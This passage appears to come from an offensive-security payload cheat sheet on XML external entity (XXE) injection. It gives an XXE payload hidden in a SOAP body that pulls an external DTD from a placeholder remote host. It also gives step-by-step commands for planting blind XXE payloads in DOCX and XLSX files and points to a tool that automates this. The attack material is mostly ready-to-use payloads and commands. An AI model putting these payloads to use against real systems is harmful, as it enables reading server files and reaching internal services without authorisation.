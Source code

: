 #### **XXE inside SOAP**

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

#### **XXE inside DOCX file**

Format of an Open XML file (inject the payload in any .xml file):

* /\_rels/.rels
* \[Content\_Types].xml
* Default Main Document Part
  * /word/document.xml
  * /ppt/presentation.xml
  * /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`

Tool : [https://github.com/BuffaloWill/oxml\_xxe](https://github.com/BuffaloWill/oxml\_xxe)

```
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

#### **XXE inside XLSX file**

Extract the excel file.

```
$ mkdir XXE && cd XXE
$ unzip ../XXE.xlsx
Archive:  ../XXE.xlsx
  inflating: xl/drawings/drawing1.xml
  inflating: xl/worksheets/sheet1.xml
  inflating: xl/worksheets/_rels/sheet1.xml.rels
  inflating: xl/sharedStrings.xml
  inflating: xl/styles.xml
  inflating: xl/workbook.xml
  inflating: xl/_rels/workbook.xml.rels
  inflating: _rels/.rels
  inflating: [Content_Types].xml
```

Add your blind XXE payload inside `xl/workbook.xml`.
